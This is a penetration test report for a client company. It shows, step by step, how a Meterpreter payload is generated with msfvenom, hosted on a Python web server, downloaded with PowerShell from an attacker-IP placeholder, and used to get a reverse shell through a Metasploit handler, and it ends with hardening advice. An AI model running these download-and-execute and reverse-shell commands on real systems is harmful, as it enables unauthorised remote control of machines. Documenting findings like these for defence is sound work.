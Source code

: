 # Penetration Test Report – Payload Delivery & Reverse Shell

**Client:** StructureReality Corp.  
**Date:** September 2025  
**Tester:** Alison T. Richardson  

---

## 📊 Executive Summary
During the assessment, a proof-of-concept attack demonstrated that it was possible to generate a malicious executable, deliver it to a domain system, and obtain a full **Meterpreter reverse shell**.  
This exercise confirmed that **endpoint defenses, application whitelisting, and user restrictions** were insufficient to prevent execution of unauthorized binaries.  

The risk associated with this finding is **Critical**, as attackers could use the same vector to gain persistent access and exfiltrate sensitive data.

---

## 🎯 Objectives
- Generate a **Meterpreter payload** using msfvenom.  
- Deliver the payload to the target system via hosted web server.  
- Download and execute the payload using **PowerShell**.  
- Receive a reverse connection in Metasploit and establish full control.  

---

## 🛠 Technical Details

### 1. Payload Creation
A Windows PE (Portable Executable) was generated using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o meterpreter_payload.exe
```

**Impact:** Demonstrates the ability to craft malicious executables undetected by the target host at the time of testing.

---

### 2. Hosting & Delivery
A temporary Python web server was launched to host the payload:

```bash
python3 -m http.server 8080
```

From the compromised shell, the following command was executed to download the file:

```powershell
powershell -c "Invoke-WebRequest -Uri http://<attacker-ip>:8080/meterpreter_payload.exe -OutFile C:\Users\Public\meterpreter.exe"
```

**Impact:** Shows that outbound HTTP requests were permitted and no content filtering prevented malicious file delivery.

---

### 3. Listener & Execution
A Metasploit handler was configured:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
run
```

The payload was executed on the target:

```powershell
C:\Users\Public\meterpreter.exe
```

**Result:** A **reverse Meterpreter shell** was successfully established, granting remote control over the system.

---

## ⚠️ Risk Assessment
- **Likelihood:** High – attack leveraged widely available tools (Metasploit, msfvenom, PowerShell).  
- **Impact:** Critical – full system compromise and remote control achieved.  
- **Risk Rating:** 🔴 Critical  

---

## 🔒 Recommendations
1. **Application Whitelisting (AppLocker / WDAC):** Restrict execution of unsigned or unapproved executables.  
2. **PowerShell Constrained Language Mode:** Limit PowerShell functionality to reduce abuse.  
3. **Endpoint Detection & Response (EDR):** Deploy solutions that monitor and block suspicious payload execution.  
4. **Network Controls:** Block outbound HTTP/HTTPS connections to untrusted sources.  
5. **User Awareness Training:** Train employees on phishing and malicious download risks.  

---

## ✅ Conclusion
This test confirmed that an attacker could:  
1. Deliver a malicious executable,  
2. Execute it on a target system,  
3. Establish persistent remote control.  

Mitigation efforts should focus on **hardening endpoints**, **monitoring PowerShell activity**, and **restricting unauthorized downloads/executables**.

---

*Prepared by Alison T. Richardson – Cybersecurity Pentest Report*
